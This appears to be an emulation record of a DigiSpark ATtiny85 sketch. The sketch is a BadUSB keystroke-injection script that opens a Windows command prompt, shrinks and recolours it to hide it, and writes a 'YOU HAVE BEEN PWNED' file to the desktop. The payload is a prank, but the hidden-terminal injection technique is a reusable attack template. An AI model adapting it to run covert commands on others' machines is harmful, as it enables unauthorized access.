
Recording of a sketch running on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH). At 2.3 s the program stops and its outputs stay as they are.

Above: at 0.1 s.
At 2.4 s:

Timing chart, 0 to 3.8 s (numbered marks = the images above):


Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 2.3 s

The sketch:

write-to-file.ino
```cpp
//This DigiSpark script creates a text file on desktop with pwned message

#include "DigiKeyboard.h"

void setup()
{
  pinMode(1, OUTPUT); //LED on Model A
}

void loop()
{
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(300);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  //Obfuscate the terminal
  DigiKeyboard.delay(300);
  DigiKeyboard.print("cmd /k");
  DigiKeyboard.delay(300);
  DigiKeyboard.print("MODE CON: COLS=15 LINES=1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("COLOR EF");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  // Start the commands
  DigiKeyboard.delay(300);
  DigiKeyboard.print("cd %UserProfile%/Desktop");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("echo YOU HAVE BEEN PWNED > YOU_HAVE_BEEN_PWNED.TXT");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH); //turn on led when program finishes
  for (;;)
  {
    /*Stops the digispark from running the script again*/
  }
}
```
